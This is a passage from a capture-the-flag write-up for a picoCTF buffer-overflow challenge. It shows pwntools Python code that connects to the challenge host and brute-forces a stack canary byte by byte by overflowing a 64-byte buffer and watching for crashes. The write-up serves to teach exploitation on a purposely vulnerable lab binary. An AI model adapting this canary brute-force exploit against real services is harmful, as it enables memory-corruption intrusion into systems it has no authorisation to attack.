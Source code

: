 ### II: Bypassing the Canary 💨

We can now start writing our script! My plan is to loop through all printable characters for each canary byte, which can be imported from `string`. Let's include that in our pwn boilerplate alongside a simple function that allows us to swap between a local and remote instance:

```py
#!/usr/bin/env python3
from pwn import *
from string import printable

elf = context.binary = ELF("./vuln", checksec=False) # Creates ELF object
host, port = "saturn.picoctf.net", [PORT]
offset = 64

def new_process(): # Specify remote or local instance with CLI argument
    if args.LOCAL:
        return process(elf.path)
    else:
        return remote(host, port)
```

Here's the big part: the `get_canary()` function. I'll be using [`pwnlib.log`](https://docs.pwntools.com/en/stable/log.html) for some spicy status messages. My general process for the brute force is visualized here if you're having trouble:

![Brute Force Visual](/static/picoctf-2022/buffer-overflow/brute-visual.svg)

I'll be initially sending 64 + 1 bytes, and slowly appending the correct canary to the end of my payload until the loop has completed four times:

{% codeblock lang:py first_line:15 %}
def get_canary():
    canary = b""
    logger = log.progress("Finding canary...")
    for i in range(1, 5):
        for char in printable:
            with context.quiet: # Hides any other log
                p = new_process()
                p.sendlineafter(b"> ", str(offset + i).encode())
                p.sendlineafter(b"> ", flat([{offset: canary}, char.encode()]))
                output = p.recvall()
                if b"?" in output: # If program doesn't crash
                    canary += char.encode()
                    logger.status(f'"{canary.decode()}"')
                    break
    logger.success(f'"{canary.decode()}"')
    return canary